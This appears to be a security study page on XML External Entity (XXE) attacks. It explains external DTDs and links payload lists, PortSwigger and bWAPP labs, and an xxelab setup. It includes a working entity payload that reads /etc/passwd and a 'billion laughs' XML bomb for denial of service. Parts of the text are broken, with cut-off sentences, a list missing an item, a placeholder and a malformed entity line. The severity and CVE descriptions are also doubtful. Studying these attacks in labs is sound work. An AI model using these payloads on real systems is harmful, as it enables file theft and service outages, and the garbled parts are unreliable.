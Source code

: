 # XXE

## Brief

{% hint style="info" %}
An XXE is a type of attack that is performed against an application in order to parse its XML input. In this attack XML input containing a reference to an external entity is processed by a weakly configured XML parser. _Like in Cross-Site Scripting (XSS) we try to inject scripts similarly in this we try to insert XML entities to gain crucial information_.

It is used for declaration of the structure of XML document, types of data value that it can contain, etc. DTD can be present inside the XML file or can be defined separately. It is declared at the beginning of XML using .

There are several types of DTDs and the one we are interested in is external DTDs. There are two types of external DTDs:

1. **SYSTEM**: System identifier enables us to specify the external file location that contains the DTD declaration

In this **XML external entity payload** is sent to the server and the server sends that data to an XML parser that parses the XML request and provides the desired **output** to the server. Then server **returns** that **output** to the **attacker**.
{% endhint %}

### Impacts

**OWASP TOP 10**

* _SSRF_
* _DoS_
* _RCE_
* _XSS_

The CVSS score of an **XXE** is **7.5** and its severity is **Medium** with :

* **CWE-611**: Improper Restriction of XML External Entity.
* **CVE-2019-12153**: Local File SSRF
* **CVE-2019-12154**: Remote File SSRF
* **CVE-2018-1000838**: Billion Laugh Attack
* **CVE-2019-0340**: XXE via File Upload

## XXE to SSRF

### Payloads

{% embed url="https://github.com/payloadbox/xxe-injection-payload-list" %}

### Local File Inclusion

With _bWAPP_

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset [
<!ENTITY ignite SYSTEM "file:///etc/passwd">
]>...<CODE>
```

### XXE Billion Laugh Attack-DOS

{% hint style="info" %}
These are aimed at XML parsers in which both, well-formed and valid, XML data crashes the system resources when being parsed. This attack is also known as **XML bomb** or XML **DoS** or exponential entity expansion attack.
{% endhint %}

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

### XXE File Upload

XXE can be performed using the file upload method.

{% embed url="https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload" %}
Lab XXE File Upload
{% endembed %}

## XXE to RCE

### POC with XXELAB

{% embed url="https://github.com/jbarone/xxelab" %}

```bash
git clone https://github.com/jbarone/xxelab.git
cd xxelab
vagrant up
```

![XXE to RCE](<../../.gitbook/assets/image (138).png>)
